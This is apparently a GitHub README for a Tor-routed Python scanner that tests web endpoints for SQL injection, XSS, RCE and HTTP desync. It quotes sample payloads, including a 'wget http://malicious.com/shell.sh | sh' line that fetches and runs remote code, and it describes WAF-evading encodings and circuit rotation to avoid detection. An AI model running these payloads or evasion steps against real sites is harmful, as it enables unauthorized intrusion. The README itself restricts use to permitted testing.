 # Advanced Web Scanner

This Python script scans web endpoints for vulnerabilities such as SQL Injection (SQLi), Cross-Site Scripting (XSS), Remote Code Execution (RCE), and HTTP Desynchronization (HTTP Desync). It uses a combination of different payloads, encoding techniques, and Tor for anonymity while testing the vulnerabilities.

## Features

- **Tor-based Anonymity**: The script routes all traffic through the Tor network to maintain anonymity.
- **Multiple Payloads**: A variety of payloads are used for different types of vulnerabilities, including evasion techniques.
- **Error Handling**: The script automatically retries failed requests and renews the Tor circuit to avoid detection and rate limiting.
- **Logging**: The script logs vulnerabilities found into separate files by type.

## Requirements

- Python 3.x
- [Tor](https://www.torproject.org/download/) (Tor client must be running locally on your machine)
- `requests` library
- `stem` library (Python Tor controller)
- `websocket-client` library

Install the required dependencies:

```bash
pip install requests stem websocket-client
```
## Configuration

Before running the script, make sure that the following configurations are set correctly:

    Tor Configuration:
        TOR_SOCKS5_PROXY: Set to the SOCKS5 proxy used by Tor (usually socks5h://127.0.0.1:9050).
        Tor Control Port: Ensure the Tor control port (9051 by default) is accessible.
        Tor Password: Set the password for authenticating with the Tor control port (you may need to configure this in the torrc file).

TOR_PASSWORD = "Passw0rd"  # Change this to your Tor password

## Payloads

The script uses a set of payloads for different vulnerability types:

    SQL Injection (SQLi): Payloads like ' OR '1'='1' -- to test SQL injection vulnerabilities.
    Cross-Site Scripting (XSS): Payloads like <img src='x' onerror='alert(1)'> to test XSS vulnerabilities.
    Remote Code Execution (RCE): Payloads like wget http://malicious.com/shell.sh | sh; to test RCE vulnerabilities.
    HTTP Desynchronization (Desync): Payloads like 0\r\n\r\nTRACE / HTTP/1.1\r\nHost: vulnerable.site\r\n to test HTTP desync vulnerabilities.

## How It Works

    Tor Circuit: The script uses Tor for anonymity, automatically renewing the Tor circuit after every 5 requests.
    Scanning: The script reads a list of endpoints from endpoints.txt and tests each endpoint with different types of payloads.
    Encoding: Payloads are encoded in various formats (default, URL encoding, Base64, and Hex) to evade detection mechanisms such as Web Application Firewalls (WAFs).
    Retries: If a request fails due to connection issues, the script retries a few times with random delays.
    WebSocket Support: Some payloads, like HTTP Desync, are sent via WebSocket for more advanced testing.
    Logging: If vulnerabilities are found, they are logged into separate files for each vulnerability type: res_sqli.txt, res_xss.txt, res_rce.txt, and res_http_desync.txt.

## How to Run

    Ensure Tor is running on your system. You can start Tor with the following command (assuming Tor is installed):
```bash
sudo systemctl start tor
```

Make sure you have the endpoints.txt file with a list of endpoints you want to scan. Each endpoint should be on a new line:

http://example.com
https://vulnerable-site.com

Run the Python script:

    python Advanced_ws.py

    The script will start scanning the endpoints and log the results into corresponding files.

Example Output

If the script finds any vulnerabilities, they will be logged in the following format:

[Vulnerability Type] Vulnerable: http://example.com?page=1' OR '1'='1' --
Curl: curl -X GET 'http://example.com?page=1%27%20OR%20%271%27%3D%271' --data ''

The results will be saved in the following files:

    res_sqli.txt for SQLi vulnerabilities
    res_xss.txt for XSS vulnerabilities
    res_rce.txt for RCE vulnerabilities
    res_http_desync.txt for HTTP Desync vulnerabilities

## Renewing Tor Circuit

To avoid detection, the script automatically renews the Tor circuit after every 5 requests by signaling Tor with the NEWNYM signal. This ensures that your IP address is changed frequently, maintaining anonymity.

## License

This script is provided as-is with no warranty. Feel free to use and modify it according to your needs. For educational purposes only. Ensure you have explicit permission before testing any website for vulnerabilities.

## Disclaimer

This script is intended for educational purposes and responsible security research only. Unauthorized use of this script to attack or exploit systems without explicit permission is illegal and unethical. Always obtain permission from the website owner or system administrator before performing security tests.

